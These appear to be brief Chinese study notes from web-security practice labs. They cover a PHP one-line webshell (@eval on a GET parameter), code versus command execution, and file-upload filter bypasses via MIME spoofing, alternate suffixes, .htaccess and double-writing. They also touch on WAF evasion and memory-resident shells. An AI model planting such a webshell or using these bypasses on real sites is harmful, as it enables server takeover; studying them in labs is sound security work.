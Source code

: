 
## PHP

```<?php
    @eval($_GET[x]);
?>
```

`@`在网页隐藏报错

### RCE

`eval()`代码执行,只认识代码。代码段有分号
```php
eval("phpinfo();")
```

代码执行一句话木马


`system()`命令执行，只认识cmd命令

代码执行危害更大，可以实现命令执行

命令执行对文件可能有权限问题，不一定能代码执行。



# 靶场

## medium

MIME：抓包修改字段，绕过文件类型检测

前段限制==无限制

`$_FILES`

## high


# up-load靶场

1. 前端
2. MIME
3. sufix .php2
4. .htaccess
   
web中间件解释器，区域配置解释器
setHander
5.
6. 10 双写绕过---匹配项替换为空

# 绕过wafdog

信息过滤长度限制

- 放到恶意代码前
- 保持保温结构

# 状态码，内存码

- java
- 怎么形成的？前提--有命令执行漏洞、webshell

重启中间件
